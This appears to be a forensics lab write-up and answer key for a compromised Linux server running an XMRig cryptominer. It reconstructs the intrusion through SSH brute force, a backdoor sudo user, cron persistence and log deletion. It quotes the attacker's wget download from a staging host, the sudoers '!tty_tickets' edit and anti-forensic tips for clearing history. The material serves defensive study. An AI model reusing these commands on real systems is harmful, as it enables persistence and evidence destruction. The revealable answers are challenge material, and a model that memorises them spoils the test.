




## Scenario

During routine security audits at a startup, the SOC team detected unusual activity on Linux servers — unexpected configuration changes and unfamiliar files in critical system directories. A disk image from one of the affected servers has been provided for forensic analysis. The objective is to determine if a compromise occurred, identify the tools and tactics used, and assess the full scope of the incident.

---

## Methodology

### Disk Image Mount — losetup

The disk image is mounted as a loop device to make the filesystem accessible for forensic analysis:

```
sudo losetup --find --partscan disk_image.img
sudo losetup -a
sudo fdisk -l /dev/loop11
sudo mount /dev/loop11p2 /mnt/xmrig
```



With the filesystem mounted at `/mnt/xmrig`, all files are accessible without booting the image — preserving forensic integrity while allowing full directory traversal.

### Bash History — Attacker Commands

The first stop on any Linux compromise is `.bash_history`. Uncleared or partially cleared history is one of the most reliable sources of attacker activity:

```
cat .bash_history
```

```
sudo adduser noah
sudo usermod -aG sudo noah
sudo rm -f ~/.bash_history
sudo rm -f /var/log/auth.log
exit
```

The sequence tells a clear story. The attacker created a new user `noah`, immediately granted sudo privileges via group membership, then attempted to destroy evidence by deleting both the bash history and `auth.log`. The fact that `.bash_history` still contains these commands means the deletion of `~/.bash_history` ran in the same session it was being recorded — the file was deleted but the in-memory history buffer had already captured everything. `noah`'s home directory contained nothing of forensic value.

### Persistence — Cron Job

Checking the system crontabs surfaces the persistence mechanism:

```
cat /mnt/xmrig/var/spool/cron/crontabs/root
```

```
0 * * * * /tmp/backup.elf >/dev/null 2>&1
```

The miner binary `backup.elf` is scheduled to execute every hour on the hour, with all output suppressed via `/dev/null` redirection to prevent any console or log artefacts. Staging the payload in `/tmp` is deliberate — writable without elevation and commonly excluded from integrity monitoring.

Hashing the file for threat intelligence lookup:

```
md5sum backup.elf
d25208063842ebf39e092d55e033f9e2  backup.elf
```

VirusTotal identifies the sample as `xmr_linux_amd64 (3)` — an XMRig Monero cryptominer binary.

### File Recovery — PhotoRec

The attacker deleted `auth.log` to obstruct timeline reconstruction. PhotoRec is used to recover deleted files from the disk image to `/home/ubuntu/recovery/recup_dir`:



With the recovered files in place, grepping for the malicious binary download command surfaces the attacker's wget call from the recovered bash history:

```
grep -r "tmp/backup.elf"
```

```
grep: recup_dir.1/f0238392.elf: binary file matches
```

The original download command recovered from the deleted history:

```
wget http://3[.]28[.]195[.]43/Tools/backup/backup.elf
```

The miner was staged on an attacker-controlled server at `/Tools/backup/backup.elf` and downloaded directly to `/tmp` via wget.

### Sudoers Manipulation — Persistent Privilege Escalation

Also recovered from the deleted history:

```
echo 'Defaults !tty_tickets' >> /etc/sudoers
```

This disables TTY ticket validation in sudo — normally sudo requires re-authentication per terminal session. With `!tty_tickets` set, a sudo authentication in one terminal grants sudo access across all terminals without re-entering credentials. This is T1548.003 — Abuse Elevation Control Mechanism via Sudo.

### Auth Log Recovery — SSH Brute Force Reconstruction

The deleted `auth.log` is recovered from PhotoRec output as compressed `.xz` archives. Extracting the strings from the binary recovers the original log content:

```
strings ./recup_dir.77/f14157896.xz | grep -B 2 'Accepted password'
```



The recovered log reconstructs the full SSH brute force and authentication timeline:

```
Oct 28 15:08:17 inuxserver sshd[2174]: Failed password for ubuntu from 192.168.19.147 port 47280 ssh2
Oct 28 15:08:17 inuxserver sshd[2176]: Failed password for ubuntu from 192.168.19.147 port 47290 ssh2
Oct 28 15:08:18 inuxserver sshd[2167]: Accepted password for ubuntu from 192.168.19.147 port 47252 ssh2
...
Oct 28 15:09:40 inuxserver sshd[2235]: Accepted password for ubuntu from 192.168.19.147 port 44908 ssh2
...
Oct 28 15:35:21 inuxserver sshd[2379]: Accepted password for ubuntu from 192.168.19.147 port 35248 ssh2
```

The attacker originated from `192.168.19.147` — multiple failed attempts against `root` first, then successful brute force of `ubuntu`. Three separate accepted sessions are visible. The final login at **2024-10-28 15:35** was the cleanup session where bash history and auth.log were deleted.

### The Exit Artefact

The attacker's cleanup session was their own undoing. Running `exit` to terminate the SSH session caused bash to flush the in-memory history buffer to `.bash_history` before closing — writing every command from the session, including the deletion commands, to disk.


This is a common attacker mistake: `sudo rm -f ~/.bash_history` deletes the file but the current session's history is still in memory. `exit` writes it back. The correct approach to avoid this is `history -c && history -w && exit` or setting `HISTSIZE=0` — the attacker did neither.

---

## Attack Summary

|Phase|Action|
|---|---|
|Initial Access|SSH brute force from 192.168.19.147 — `root` targeted first, `ubuntu` compromised|
|Execution|`wget` downloads `backup.elf` (XMRig miner) from `3[.]28[.]195[.]43` to `/tmp`|
|Persistence|Cron job added — `backup.elf` executes hourly, output suppressed|
|Privilege Escalation|New sudo user `noah` created; sudoers modified with `!tty_tickets`|
|Collection|`/etc/passwd` exfiltrated to attacker machine at `/home/ubuntu/passwd.txt`|
|Defence Evasion|`~/.bash_history` and `/var/log/auth.log` deleted to obstruct forensics|
|Impact|XMRig cryptominer running persistently, consuming server resources for Monero mining|

---

## IOCs

|Type|Value|
|---|---|
|Attacker IP|192[.]168[.]19[.]147|
|C2 / Staging Server|3[.]28[.]195[.]43|
|Miner Download URL|hxxp[://]3[.]28[.]195[.]43/Tools/backup/backup.elf|
|Miner Path|/tmp/backup.elf|
|Miner MD5|d25208063842ebf39e092d55e033f9e2|
|Miner Original Name|xmr_linux_amd64 (3)|
|Persistence|`0 * * * * /tmp/backup.elf >/dev/null 2>&1`|
|Backdoor User|noah (sudo group)|
|Exfiltrated File|/etc/passwd → attacker:/home/ubuntu/passwd.txt|
|Last Attacker Login|2024-10-28 15:35 UTC|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Brute Force: Password Guessing|T1110.001|SSH brute force from 192.168.19.147 targeting root then ubuntu|
|Create Account: Local Account|T1136.001|Backdoor user `noah` created and added to sudo group|
|Abuse Elevation Control: Sudo|T1548.003|`Defaults !tty_tickets` added to sudoers — sudo auth persists across all terminals|
|Scheduled Task/Job: Cron|T1053.003|Hourly cron entry executes `/tmp/backup.elf` with suppressed output|
|Ingress Tool Transfer|T1105|XMRig miner downloaded via wget from attacker staging server|
|Indicator Removal: Clear Linux Logs|T1070.002|`/var/log/auth.log` deleted to remove SSH authentication evidence|
|Indicator Removal: Clear Command History|T1070.003|`~/.bash_history` deleted — recovered due to exit flushing in-memory buffer|
|Resource Hijacking|T1496|XMRig Monero miner deployed with hourly cron persistence|


---

## Defender Takeaways

**PhotoRec recovers what attackers think they deleted** — `auth.log` deletion is a common attacker cleanup step, but filesystem deletion doesn't immediately overwrite data. PhotoRec's carving approach recovered the compressed log artefacts from unallocated space, fully reconstructing the SSH brute force timeline. Centralised log shipping to a SIEM or remote syslog server means local deletion becomes irrelevant — the log already left the box.

**Exit flushes bash history — attackers frequently forget this** — deleting `.bash_history` mid-session only removes the file on disk. The current session's command buffer is in memory and writes back on `exit`. This single mistake reconstructed the entire attacker post-exploitation chain. Defenders should be aware that recovered bash history from a "cleaned" system is often the richest artefact available.

**Cron in `/tmp` is a high-confidence detection signal** — no legitimate application schedules executables from `/tmp`. A simple auditd or SIEM rule alerting on crontab entries referencing `/tmp`, `/dev/shm`, or other world-writable paths will catch this class of persistence reliably. `/tmp` is also cleared on reboot — making the hourly cron essential to the attacker's persistence model and a single point of failure to disrupt.

**Sudoers modification warrants immediate alerting** — `echo '...' >> /etc/sudoers` is a trivial one-liner that dramatically expands attacker capability. File integrity monitoring on `/etc/sudoers` and `/etc/sudoers.d/` with alerting on any modification is a baseline control. The `!tty_tickets` technique specifically is worth a dedicated detection rule as it has no legitimate administrative use case in most environments.

**SSH brute force against root should be impossible** — `PermitRootLogin no` in `sshd_config` eliminates direct root SSH entirely. Combined with `AllowUsers` or `AllowGroups` to restrict which accounts can authenticate via SSH, fail2ban or equivalent for automatic IP blocking after repeated failures, and key-based authentication only, the initial brute force vector is closed completely. The attacker's first target was root — a hardened config sends them nowhere.


---

<div class="qa-item"> <div class="qa-question-text">Assigning high-level privileges to a new user is essential in the attack chain, as it enables the attacker to execute commands with administrative access, ensuring persistent control over the system. What command did the attacker use to grant elevated privileges to the newly created user?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">sudo usermod -aG sudo noah</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Understanding the commands used by the attacker to cover their traces is essential for identifying attempts to hide malicious activity on the system. What is the second command the attacker used to erase evidence from the system?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">sudo rm -f /var/log/auth.log</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the configuration added or modified by the attacker for persistence is essential for detecting and removing recurring malicious activities on the system. What configuration line did the attacker add to one of the key Linux system files for scheduled tasks to ensure the miner would run continuously?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">0 * * * * /tmp/backup.elf >/dev/null 2>&1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the hash of the malicious file is crucial for confirming its uniqueness and tracking its presence across systems. What is the MD5 hash of the file dropped by the attacker with mining capabilities?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">d25208063842ebf39e092d55e033f9e2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Knowing the original name of a malicious file helps link it to known malware families and provides valuable insights into its behavior. According to threat intelligence reports, what is the original name of the miner?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">xmr_linux_amd64 (3)</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Understanding the attacker's actions is crucial for tracing how malicious files were introduced to the system. The attacker successfully executed a command to download and save the miner on the compromised Linux system. What was the exact file path on the attacker's server where the malicious miner was hosted?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">/Tools/backup/backup.elf</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">To understand which sensitive information was accessed and transferred from the compromised system, it’s essential to identify the files exfiltrated by the attacker. What is the full path on the attacker’s remote machine where the exfiltrated passwd file was saved?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">/home/ubuntu/passwd.txt</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Understanding how the attacker maintained elevated privileges without repeated permission prompts is essential for uncovering their methods of persistent access. What command did the attacker use to configure continuous privilege escalation without requiring repeated permission?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">echo 'Defaults !tty_tickets' >> /etc/sudoers</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the source IP address used for lateral movement is essential for tracing the attacker's path and understanding the extent of the compromise. What is the IP address of the machine the attacker used to perform lateral movement to this Linux box?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">192.168.19.147</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Identifying the first username targeted by the attacker in their brute-force attempts offers insight into their initial access strategy and target selection, as the attacker attempted to access two different accounts. What was the first username the attacker targeted in these brute-force attempts?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">root</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Determining the timestamp of the attacker’s final login is crucial for identifying when they last accessed the system to hide their activities and erase evidence. What is the timestamp of the last login session during which the attacker cleared traces on the compromised machine?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">2024-10-28 15:35</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">During the attacker’s SSH session, they used a command that mistakenly saved their activities to the hard drive rather than keeping them in memory where they’d be more difficult to analyze. Which bash command did they use that left this trace?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">exit</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

